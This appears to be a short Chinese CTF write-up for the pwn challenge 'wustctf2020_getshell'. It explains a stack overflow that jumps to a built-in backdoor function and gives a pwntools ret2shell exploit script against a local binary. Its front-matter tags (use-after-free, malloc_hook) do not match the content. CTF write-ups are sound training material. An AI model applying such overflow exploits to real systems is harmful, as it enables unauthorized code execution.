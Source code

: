 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

![image-20231231142431436](../assets/img/old_imgs/image-20231231142431436.png)

<img src="../assets/img/old_imgs/image-20231231142439989.png" alt="image-20231231142439989" style="zoom: 150%;" />

- `ret2shell`

1. 在`vulnerable`函数中存在溢出漏洞
2. `shell`函数中已经预留了后门

溢出->跳转到后门函数

```python
from pwn import *
context.log_level = 'debug'
elf=ELF('wustctf2020_getshell')
io = process('wustctf2020_getshell')
payload = b'A'*(0x18+0x4)+p32(elf.sym['shell'])
io.sendline(payload)
io.interactive()
```